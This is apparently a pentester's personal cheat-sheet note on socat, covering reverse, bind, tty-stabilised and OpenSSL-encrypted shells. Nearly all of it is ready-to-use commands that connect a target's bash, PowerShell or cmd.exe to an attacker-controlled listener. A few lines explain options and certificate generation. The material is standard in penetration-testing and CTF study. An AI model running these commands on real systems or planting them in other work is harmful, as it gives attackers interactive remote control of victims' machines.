 **Type:** #type/tool
**Tags:**  #tech/shell
**Link:** https://www.redhat.com/sysadmin/getting-started-socat
**Purpose:** sophisticated reverse shell tool

---
# Info
sophisticated reverse shell tool, however, special payload is required for connection
static binary: https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat
# Usage
## Reverse Shell
start socat listener:
`socat TCP-L:<port> -`
connect to listener:
Windows: `socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes`
	the pipes argument forces windows to use unix style pipes
Linux: `socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:"bash -li"`
### only for linux: stable reverse shell:
start istener:
``socat TCP-L:<port> FILE:`tty`,raw,echo=0``
to this listener, you can only connect with a special socat payload, which has to be downloaded to the target machine first. See [[3_Tools/shells/Netcat]] section "stabilisation" with socat
connect to listener:
`socat TCP:<attacker-ip>:<attacker-port> EXEC:"bash -li",pty,stderr,sigint,setsid,sane`
- **EXEC:"bash -li"**: interactive shell
-   **pty**, allocates a pseudoterminal on the target -- part of the stabilisation process
-   **stderr**, makes sure that any error messages get shown in the shell (often a problem with non-interactive shells)  
    
-   **sigint**, passes any Ctrl + C commands through into the sub-process, allowing us to kill commands inside the shell
-   **setsid**, creates the process in a new session
-   **sane**, stabilises the terminal, attempting to "normalise" it.
- 
## Bind Shell
on target:
Linux: `socat TCP-L:<PORT> EXEC:"bash -li"`
Windows:`socat TCP-L:<PORT> EXEC:powershell.exe,pipes`
on attacker:
`socat TCP:<TARGET-IP>:<TARGET-PORT> -`

## Encrypted shell
1. generate certificate (on attacking machine):
`openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt`
this creates a key and a certificate file
2. merge the two file into a single -pem file:
`cat shell.key shell.crt > shell.pem`
the pem file has to be used with the listener
**For reverse shell**
1.  setup listener
`socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 -`
2. connect from target
`socat OPENSSL:<LOCAL-IP>:<LOCAL-PORT>,verify=0 EXEC:"bash -li"`
**For bind shell**
1. copy .pem file to target
2. setup listener on target:
`socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 EXEC:cmd.exe,pipes`
3. connect from attacker:
`socat OPENSSL:<TARGET-IP>:<TARGET-PORT>,verify=0 -`

this can be combined with the "tty method" for linux targets by inserting ``FILE:`tty`,raw,echo=0`` in the listener and `,pty,stderr,sigint,setsid,sane` in the connector (insert both in the second argument)
